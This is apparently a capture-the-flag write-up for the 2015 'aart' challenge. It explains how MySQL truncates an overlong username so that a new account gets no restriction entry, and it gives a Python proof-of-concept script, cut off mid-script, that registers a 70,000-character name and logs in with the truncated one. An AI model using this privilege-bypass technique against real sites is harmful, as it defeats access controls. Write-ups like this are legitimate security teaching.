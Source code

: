 Looking at the register.php file, we can see two `INSERT`s being executed. In the first, the new user account is simply created by inserting the username and password into the `users` table. This will generate the id, as the `id` column in `users` is set to *AUTO_INCREMENT* (see schema.sql).

In the second `INSERT` the privileges of this newly created account are set. For this a *userid*, *isRestricted* pair are inserted into the `privs` table. The userid, however, is fetched in a subquery by comparing the username from the *$_POST variable to the one existing in `users` table.

There are several ways to exploit this script, two involving race conditions and one involving truncation of usernames. During the CTF we used the latter one, but we are going to describe all three of them.

## Exploit 1: Username truncation
This exploit uses the fact, that data is getting truncated by MySQL if it is above the max length of the field's datatype.

### Vulnerability
Looking at *schema.sql*, we note that the username field has datatype `TEXT`, in MySQL the `TEXT` datatype has a capacity of 65535 bytes (see [MySQL storage requirements](https://dev.mysql.com/doc/refman/5.0/en/storage-requirements.html)). Everything that is longer than that, will just be truncated! Now the exploit is straight forward: 

### Exploit
Register a new account with a username length > 65535 characters, let's say we choose `username = 'A'*65535 + 'B'`. The newly created account has its username set to 'A'\*65535, since the 'B' will simply be ignored due to truncation. In the subquery, the `id` is selected by comparing the chosen username (i.e. 'A'*65535 + 'B') to usernames in the database. But since the username inserted into the database was truncated, this subquery will return no results! Therefore there will be no entry in `privs` table for our newly created account. We login using the truncated username and retrieve the flag:

![aart page]({{ site.url }}/imgs/GITS2015-aart-flag.png)

`this is a key` is the actual flag.

Finally, a simple PoC script that will register a random username with length > 65535 and then use the truncated username to login and fetch the flag:

{% highlight python %}
#!/usr/bin/env python

import requests
import string
import re
import random

url_register = "http://aart.2015.ghostintheshellcode.com/register.php"
url_login = "http://aart.2015.ghostintheshellcode.com/login.php"


# Generate random username with length > 65535
username = ''.join(random.choice(string.ascii_letters) for _ in range(70000))
password = 'foo'


# register with full username
data = { 'username' : username, 'password' : password }
requests.post(url_register, data=data)
print "[*] Registered"

# login with truncated username
data['username'] = username[:65535]
c = requests.post(url_login, data=data).content